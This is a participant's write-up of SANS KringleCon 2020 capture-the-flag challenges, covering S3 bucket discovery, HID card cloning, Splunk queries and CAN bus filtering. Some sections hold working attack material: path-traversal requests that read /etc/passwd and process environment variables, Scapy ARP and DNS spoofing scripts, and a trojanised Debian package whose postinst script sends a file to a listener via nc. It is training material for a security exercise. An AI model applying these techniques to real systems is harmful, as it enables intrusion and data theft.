SpartanTri KringleCon 2020 write-up
This is my write-up for the 2020 edition of Kringlecon.
Write-up layout
site/ # Static website generated with mkdocs
docs/ # Source Markup documents
img/ # Challenges shared images
index.md # The documentation homepage
objectives/ # Main objective challenges
Objective 1 # Uncover Santa's Gift List
Objective 2 # Investigate S3 Bucket
Objective 3 # Point-of-Sale Password Recovery
Objective 4 # Operate the Santavator
Objective 5 # Open HID Lock
Objective 6 # Splunk Challenge
Objective 7 # Solve the Sleigh's CAN-D-BUS
Objective 8 # Broken Tag Generator
Objective 9 # ARP Shenanigans
Objective 10 # Defeat Fingerprint Sensor
Objective 11a # Naughty/Nice List with Blockchain Investigation Part 1
Objective 11b # Naughty/Nice List with Blockchain Investigation Part 2
achivements/ # Secondary challenges
Achivement Tmux # Unescape Tmux
Achivement ElfCode # Elf Coder
Achivement 33.6Kbps # 33.6 Kbps
Achivement Redis # Redis Investigation
Achivement Kiosk # Kringle Kiosk
Achivement Linux Primer # Linux Primer
Achivement Hidden # Hidden spot
Achivement UNPrep #
Achivement Snowball # Snowball game
Achivement SortOMatic # Sort-O-Matic / Regex game
Achivement ScapyPrepper # Scapy Practice
Achivement CAN-BUS # CAN-Bus Investigation
1) Uncover Santa's Gift list
Difficulty: 1/5

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.

ANSWER: proxmark
Billboard

The image contains the letter that require adjusting the perspective and adjust the whirl and pinch distort filter to recover the list. It can be fixed in GIMP or using an online editor such as https://www.photopea.com/.


2) Investigate S3 Bucket
Difficulty: 1/5
When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.
ANSWER: North Pole: The Frostiest Place on Earth
Starting the challenge
Click on the challenge terminal and it will pop-up on the scree and will show the following banner:
Can you help me? Santa has been experimenting with new wrapping technology, and
we've run into a ribbon-curling nightmare!
We store our essential data assets in the cloud, and what a joy it's been!
Except I don't remember where, and the Wrapper3000 is on the fritz!
Can you find the missing package, and unwrap it all the way?
Hints: Use the file command to identify a file type. You can also examine
tool help using the man command. Search all man pages for a string such as
a file extension using the apropos command.
To see this help again, run cat /etc/motd.
elf@098428dd9488:~$
Get the pakcage
The bucket finder script needs a word list so we add wraper3000 as per the description on the banner and we execute the script
elf@098428dd9488:~$ echo "wrapper3000" >>bucket_finder/wordlist
elf@098428dd9488:~$ bucket_finder.rb -r us -d bucket_finder/wordlist -l log.txt
http://s3.amazonaws.com/kringlecastle
Bucket found but access denied: kringlecastle
http://s3.amazonaws.com/wrapper
Bucket found but access denied: wrapper
http://s3.amazonaws.com/santa
Bucket santa redirects to: santa.s3.amazonaws.com
http://santa.s3.amazonaws.com/
Bucket found but access denied: santa
http://s3.amazonaws.com/wrapper3000
Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
<Downloaded> http://s3.amazonaws.com/wrapper3000/package
The script will create a directory with the same name as the bucket and downloads the content into the directory.
There is a single file in the directory and contains a base64 encoded payload.

Unwarapping the package
The package file contains several layers of packaging, a simple base64 decode and unzip in cyberchef shows it contains a file named package.txt.Z.xz.xxd.tar.bz2
So let's unwrap it, we first do the base64 decode, then unzip then decompress bz2 and un tar the file
cat wrapper3000/package |base64 -d |gzip -d - |tar -jxf -
Now we have un-xxd the resulting file
cat package.txt.Z.xz.xxd |xxd -r -p > package.txt.Z.xz
Opening the xz file with the GUI showed the archive contained the package.txt file which contains the challenge solution.
North Pole: The Frostiest Place on Earth
Cyberchef
http://icyberchef.com/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Unzip('',false)Bzip2_Decompress(false)Untar()From_Hexdump()Detect_File_Type(true,true,true,true,true,true,true)&input=VUVzREJBb0FBQUFBQUlBd2hGRWJSVDhhbndFQUFKOEJBQUFjQUJ3QWNHRmphMkZuWlM1MGVIUXVXaTU0ZWk1NGVHUXVkR0Z5TG1KNk1sVlVDUUFEb0JmS1g2QVh5bDkxZUFzQUFRVDJBUUFBQkJRQUFBQkNXbWc1TVVGWkpsTloya3RpdndBQkh2K1EzaEFTZ0dTbi8vQXZCeER3Zi94ZTBnUUFBQWd3QVZta1lSVEtlMVBWTTlVMGVrTWcycG9BQUFHZ1BVUFVHcWVoaENNU2dhQm9BRDFOTkFBQUF5RW1KcFI1UUdnMGJTUFUvVkEwZW85SWFIcUJreHcyWVpLMk5VQVNPZWdESXp3TVhNSEJDRkFDZ0lFdlEySnJnOFY1MHREamg2MVB0M1E4Q21ncEZGdW5jMUlwdWkrU3FzWUIwNE0vZ1dLS2MwVnMyRFhremVKbWlrdElOcWpvM0pqS0FBNGRMZ0x0UE4xNW9BRExlODB0bmZMR1hoSVdhSk1pRWVTWDk5MnV4b2RSSjZFQXpJRnpxU2JXdG5OcUNURURNTDlBSzdISFN6eXlCWUt3Q0ZCVkpoMTdUNjM2YTZZZ3lqWDBlRTBJc0NiamNCa1JQZ2tLejZxMG9rYjFzV2ljTWFreTJNZ3NxdzJuVW01YXlQSFVlSWt0bkJJdmtpVVd4WUVpUnM1bkZPTThNVGs4U2l0VjdsY3hPS3N0MlFlZFN4Wjg1MWNlRFFleHNMc0ozQzg5Wi9nUTZYbjZLQktxRnNLeVRrYXFPKzFGZ21JbXRIS29Ka01jdGQyQjlKa2N3dk1yK2hXSUVjSVFqQVpHaFNLWU5QeEhKRnFKM3QzMlZqZ24vT0dkUUppSUh2NHU1SXB3b1NHMGxzVitVRXNCQWg0RENnQUFBQUFBZ0RDRVVSdEZQeHFmQVFBQW53RUFBQndBR0FBQUFBQUFBQUFBQUtTQkFBQUFBSEJoWTJ0aFoyVXVkSGgwTGxvdWVIb3VlSGhrTG5SaGNpNWllakpWVkFVQUE2QVh5bDkxZUFzQUFRVDJBUUFBQkJRQUFBQlFTd1VHQUFBQUFBRUFBUUJpQUFBQTlRRUFBQUFB
3) Point-of-Sale Password Recovery
Difficulty: 1/5
Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?
ANSWER: santapass

Download the binary
Download the binary from https://download.holidayhackchallenge.com/2020/santa-shop/santa-shop.exe
Extracting the secrets
The file can be extracted using 7z e sansta-shop.exe, that will extract the following files:
app-64.7z nsExec.dll nsis7z.dll nsProcess.dll SpiderBanner.dll StdUtils.dll System.dll 'Uninstall santa-shop.exe' WinShell.dll
We extract the app-64.7z file with 7z e app-64.7z which will extract 74 files and 3 folders.
As many of the files are binary a simple grep don't get much useful but we can see that the Chormium LICENSES make cause a lof of false positives, so we make a search for strings on every file except the that searching for a password assignment in the code.
for f in $(find . -type f |grep -v LICEN); do cat $f |strings -n 20 |egrep -i "password ?= ?'" ;done
const SANTA_PASSWORD = 'santapass';
this.password = '';
ctx.password = '';
cat: ./Uninstall: No such file or directory
this.password = '';
ctx.password = '';
The constant SANTA_PASSWORD sets a hardcoded password santapass which is the challenge answer.
4) Operate the Santavator
Difficulty: 2/5
Talk to Pepper Minstix in the entryway to get some hints about the Santavator.
Minumum items
Find green bulb in courtyard. Find boltnut in front of elevator.
Operating the santavator
To use the santavator you need to open the panel and make the stream of partivles to fork into the right colors to activate teh respective floors.
Wondering around the castle we will be able to find the different items, the first items found are one of the nuts and the green bulb and as we continue navigating the castle we find the red and yellow bulb, a candy cane, a blue ball, a magnetic bulb that we can arrange as shown on the image to enable the different elavator buttons.
Later in the game after solbing the lights and vending machine challenges is possible to get from the vending machine a couple of extra items, the red and blue portals.

5) Open HID Lock
Difficulty: 2/5
Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips.

Get the Proxmark3
Once we have the different light bulbds to enable the elavator workshop button, we can go there and use the Proxmark3 item we found.
Use the Proxmark3 to acquire access card code
To use the proxmark item we need to be close to one of the items that restrict access or one of the avatars that has access cards to clone them with.

Some elfs have cards that can be useful.
Bow Ninecandle #db# TAG ID: 2006e22f0e (6023) - Format Len: 26 bit - FC: 113 - Card: 6023
Noel Boetie #db# TAG ID: 2006e22f08 (6020) - Format Len: 26 bit - FC: 113 - Card: 6020
Only Bow Ninecandle from the Talks floor has the right access. Stand close to him and read his card.
lf hid read
Use the Proxmark3 to simulate a given access card
Stand next to the HID door in the workshop and try the cards
lf hid sim -w H10301 --fc 113 --cn 6023
lf hid sim -r 2006e22f0e

Transform into Santa
Open the HID door and go all the way to the left then all the way down and click on the two lightihng dots.

6) Splunk Challenge
Difficulty: 3/5

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.
ASWER : The Lollipop Guild

Navigating Splunk
The KringleCastle SOC application contains several hitns to solve the challenges in the different chat conversations, after every solved question a new one will appear as well as new hints to solve the challenge.
1. How many distinct MITRE ATT&CK techniques did Alice emulate?
Request to solve : | eventcount summarize=false index= index=_ | dedup index | fields index There are 27 results, but there may be duplicates and there are subtechniques * 13
2. What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
Request to solve : | eventcount summarize=false index=T1059.003* | dedup index | fields index
- t1059.003-main t1059.003-win
3. One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?
Request to solve : index=t1082 CommandLine="" * we see that there are REG QUERIES index=t1082 CommandLine="REG" * HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
4. According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
Request to solve : index=attack index=attack "Test Name"="OSTAP*" * 2020-11-30T17:44:15Z
5. One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
Clone the RedCanary repository and find the script related to audio and use the cmdlet name to search Request to solve : index=* EventID=1 "WindowsAudioDevice-Powershell-Cmdlet" ProcessId 3648 * 3648
6. Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?
Request to solve : index= EventID=1 CommandLine=".bat*"
Clone the RedCanary repository and find the Discovery.bat tail -3 ./T1074.001/src/Discovery.bat systeminfo qwinsta quser * quser
7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range
Request to solve : index= sourcetype=bro index=* host=zeek sourcetype="bro:x509:json" "DC" "certificate.subject"="CN=win-dc-748.attackrange.local"| top limit=20 "certificate.serial" * 55FCEEBB21270D9249E86F4B9DC7AA60
Challenge Question What is the name of the adversary group that Santa feared would attack KringleCon? Challenge given in chat : 7FXjP1lyfKbyDK/MChyf36h7 Key given in talk : Stay Frosty RC4 encryption https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)RC4(%7B'option':'UTF8','string':'Stay%20Frosty'%7D,'Latin1','Latin1')&input=N0ZYalAxbHlmS2J5REsvTUNoeWYzNmg3
ASWER : The Lollipop Guild

7) Solve the sleighs CAN-D-BUS
Difficulty: 3/5
Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.

Finding the needle in the hey
The Sledge console displays numbers that can be filtered by entering the respective filters containing the hex codes. The possible filter are ALL, Equals, Not Equal, Contains, Greater, and Less.
By process of elimination check the ranges of each control but to eliminate the noise we set the following filters:
188# equals 000000000000
244# equals 000000000000
019# equals 000000000000
080# equals 000000000000
The first code that stands out is 19B#0000000F2057, it spells out FROST in leet so we filter it as well. After setting all these initial settings there are no more readings if the controls are all set to the default values (0).
Now check the controls one by one, when testing the Brake control, it stands out that Break 080# returns two different types of values 000001-000064 and another set of vlaues starts to appear when the break is higher than 3, all of them starting with FFFF so we add another filter for all 080# values containing FFFF in the first two positions, the testing with the started sleigh and acceleration seems fine so now we remove the initial filters and boom Sleigh deFrosted!
Final Filters
19B# equals 0000000F2057
080# contains FFFF
8) Broken Tag Generator
Dificulty: 4/5
Help Noel Boetie fix the Tag Generator (https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
ANSWER: JackFrostWasHere
Finding the vulnerability
After requesting the URL https://tag-generator.kringlecastle.com/image the server sends a hint of the possible vulenrability that is visible in the browser but curl or burp give more information, where we can see this response use 501 http status code.
HTTP/1.1 501 Not Implemented
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:22:22 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 80
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
<h1>Something went wrong!</h1>
<p>Error in /app/lib/app.rb: ID is missing!</p>
Next request, lets attempt a LFI on the id parameter using a well known file /etc/passwd, the request failed but the error message is different, this time the server sends a 404 not found with the message route not found in /app/lib/app.rb.
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:24:33 GMT
Content-Type: image/jpeg
Content-Length: 81
Connection: close
X-Content-Type-Options: nosniff
<h1>Something went wrong!</h1>
<p>Error in /app/lib/app.rb: Route not found</p>
This means that the application may prepend a fixed string to our request so lets improve our previous request with a path traversal.
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:30:00 GMT
Content-Type: image/jpeg
Content-Length: 966
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
Now we know that it sucessfully retrieves files from the file system, the target is to obtain the value of the GREETZ environmental variable. To get all environmental variables of the runnin process we can send the request to https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:33:44 GMT
Content-Type: image/jpeg
Content-Length: 399
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin�HOSTNAME=cbf2810b7573�RUBY_MAJOR=2.7�RUBY_VERSION=2.7.0�RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343�GEM_HOME=/usr/local/bundle�BUNDLE_SILENCE_ROOT_WARNING=1�BUNDLE_APP_CONFIG=/usr/local/bundle�APP_HOME=/app�PORT=4141�HOST=0.0.0.0�GREETZ=JackFrostWasHere�HOME=/home/app�
ANSWER: JackFrostWasHere
9) ARP Shenanigans
Difficulty: 4/5
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
ANSWER: Tanta Kringle

The challenge
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware. Help the North Pole by getting command line access back to this host.
Read the HELP.md file for information to help you in this endeavor.
Note: The terminal lifetime expires after 30 or more minutes so be sure to copy off any essential work you have done as you go.
The machine info
IP address: 10.6.0.2 MAC address: 02:42:0a:06:00:02
ARP poisoning
To start we run tcpdump to check what ip is sedning the ARP requests.
guest@29847c69ad6a:~$ tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
03:53:50.538344 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
03:53:51.578334 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
We take the source IP and MAC addresses and modify the ARP poisoning script including the IP that the target is looking for and we use the scapy script to reply to the request providing the destination IP and the MAC address of the local machine. and we use one of the tmux pane to run the script in the backed.
scripts/arp_resp.py
.
Sent 1 packets.
Modified values for ARP poisoning
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:02")
arp_response = ARP(pdst="10.6.6.35")
arp_response.op = 2
arp_response.plen = 4
arp_response.hwlen = 6
arp_response.ptype = 0x800
arp_response.hwtype = 0x1
arp_response.hwsrc = "02:42:0a:06:00:02"
arp_response.psrc = "10.6.6.53"
arp_response.hwdst = "4c:24:57:ab:ed:84"
arp_response.pdst = "10.6.6.35"
response = ether_resp/arp_response
sendp(response, iface="eth0")
DNS poisoning
Now we verify that the ARP poisoning is taking place and the type of traffic the target machine is sending with tcpdump.
guest@29847c69ad6a:~$ tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:16:15.602338 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:16:15.618236 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
04:16:15.646731 IP 10.6.6.35.22953 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
Now we modify the DNS poisoning script with the information we already know so it respond to all DNS requests giving our own machin IP and MAC addresses as destination.
Modified values for DNS poisoning
```ipaddr_we_arp_spoofed = "10.6.6.53" def handle_dns_request(packet): # Need to change mac addresses, Ip Addresses, and ports below. # We also need dstport=packet[IP][UDP].sport srcport=packet[IP][UDP].dport dstmac=packet[Ether].src srcmac=packet[Ether].dst eth = Ether(src=srcmac, dst=dstmac) # need to replace mac addresses ip = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed) # need to replace IP addresses udp = UDP(dport=dstport, sport=srcport) # need to replace ports dns = DNS( # MISSING DNS RESPONSE LAYER VALUES id=packet[DNS].id, qr=1, opcode=0, aa=1, tc=0, rd=1, ra=1, z=0, ad=0, rcode=0, qdcount=1, ancount=1, nscount=0, arcount=0, qd=DNSQR(qname=packet[DNS].qd.qname, qtype='A', qclass=1), an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass=1, ttl=600, rdata="10.6.0.2") ) dns_response = eth / ip / udp / dns sendp(dns_response, iface="eth0")
## Verify incoming traffic
Now we run the DNS poisoning script in another pane and verify that both the ARP and the DNS poisoning attacks are working.
guest@29847c69ad6a:~$ tcpdump -n src host 10.6.6.35 tcpdump: verbose output suppressed, use -v or -vv for full protocol decode listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes 04:32:19.882406 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28 04:32:20.481564 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [S.], seq 4256394238, ack 32042649, win 65160, options [mss 1460,sackOK,TS val 626668882 ecr 2887327827,nop,wscale 7], length 0 04:32:20.482458 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 518, win 506, options [nop,nop,TS val 626668883 ecr 2887327828], length 0 04:32:20.483909 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1:1514, ack 518, win 506, options [nop,nop,TS val 626668884 ecr 2887327828], length 1513 04:32:20.484946 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1514:1769, ack 598, win 506, options [nop,nop,TS val 626668885 ecr 2887327830], length 255 04:32:20.485190 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1769:2024, ack 810, win 505, options [nop,nop,TS val 626668886 ecr 2887327831], length 255 04:32:20.488384 IP 10.6.6.35.45802 > 10.6.0.2.80: Flags [S], seq 1443649395, win 64240, options [mss 1460,sackOK,TS val 626668889 ecr 0,nop,wscale 7], length 0 04:32:20.489449 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [FP.], seq 2024:2244, ack 810, win 505, options [nop,nop,TS val 626668890 ecr 2887327831], length 220 04:32:20.490952 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 811, win 505, options [nop,nop,TS val 626668891 ecr 2887327836], length 0 04:32:20.522762 IP 10.6.6.35.49790 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32) 04:32:20.934339 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
The machine is now receiving request from the poisoned machine on port 80, to verify the type of requests the machine receives we use `python3` `http.server` module.
uest@29847c69ad6a:~$ python3 -m http.server 80 Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... 10.6.6.35 - - [21/Dec/2020 04:34:47] code 404, message File not found 10.6.6.35 - - [21/Dec/2020 04:34:47] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
The server receives requests for a debian package `/pub/jfrost/backdoor/suriv_amd64.deb`, so we can use that to deliver a malicious package and retrieve the flag.
## Building malicious deb pakcage
We reuse one fo teh packages already present on the machine to build our malicious payload.
cd debs dpkg -x nano_4.8-1ubuntu1_amd64.deb work mkdir work/DEBIAN ar -x nano_4.8-1ubuntu1_amd64.deb xz -d -v control.tar.xz tar -xvf control.tar ./control tar -xvf control.tar ./postinst mv control work/DEBIAN/ mv postinst work/DEBIAN/
We modify the post installation script to exfiltrate the contents of the file we want and we set our machine to listen on the port we specify on the script.
work/DEBIAN/postinst contents ---START---
!/bin/sh
if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then update-alternatives --install /usr/bin/editor editor /bin/nano 40 \ --slave /usr/share/man/man1/editor.1.gz editor.1.gz \ /usr/share/man/man1/nano.1.gz update-alternatives --install /usr/bin/pico pico /bin/nano 10 \ --slave /usr/share/man/man1/pico.1.gz pico.1.gz \ /usr/share/man/man1/nano.1.gz fi
echo "cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt |base64" |nc 10.6.0.2 8000
---END---
We finish building the package and create the correct directory structure to match the incoming requests
dpkg-deb --build work/ mkdir -p pub/jfrost/backdoor mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
## Setup the exfiltration listener
We set `nc` to listen in port `8000` as we configured our payload and perform the decoding in another `tmux` pane.
nc -lvp 8000 |base64 -d |tee -a NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
## Serving the malicious payload
We set `python` `http.server` module to listen on port `80` and serve the file.
python3 -m http.server 80
## Exfiltrated file
January 20, 2020
Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole
Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.
Roll call of Board members please: Chairman Jack Frost - Present Vice Chairman Mother Nature - Present
Superman - Present Clarice - Present Yukon Cornelius - HERE! Ginger Breaddie - Present King Moonracer - Present Mrs. Donner - Present Tanta Kringle - Present Charlie In-the-Box - Here Krampus - Growl Dolly - Present Snow Miser - Heya! Alabaster Snowball - Hello Queen of the Winter Spirits - Present
ALSO PRESENT: Kris Kringle Pepper Minstix Heat Miser Father Time
Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this meeting has been made -- displayed on the bulletin board next to the Pole, listed on the North Pole community website, and published in the North Pole Times newspaper -- for people who are interested in this meeting.
Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner. Second – Superman. Minutes approved.
OLD BUSINESS: No Old Business.
RESOLUTIONS: The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle. Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.” Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.” Chairman Frost then noted, “But the additional traffic will be a burden on local residents.” Dolly explained traffic projections were all in alignment with existing roadways. Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’” Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board. 